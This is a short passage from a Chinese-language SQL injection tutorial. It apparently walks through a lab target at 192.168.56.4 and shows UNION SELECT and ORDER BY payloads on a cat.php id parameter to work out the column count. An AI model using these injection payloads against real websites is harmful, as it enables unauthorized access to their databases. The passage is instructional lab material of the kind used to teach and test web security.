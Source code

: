 ```
192.168.56.4/cat.php?id=2 union select 1,2,3,4
```

![](images/union4正确.PNG)

由于当列数为4的时候，可以看到图片，所以可以判定有四列。

* 利用order实现SQL注入

原理：使用order by x 语句。x的值必须小于或等于数据库中的列数。
```
192.168.56.4/cat.php?id=2 order by 4
```
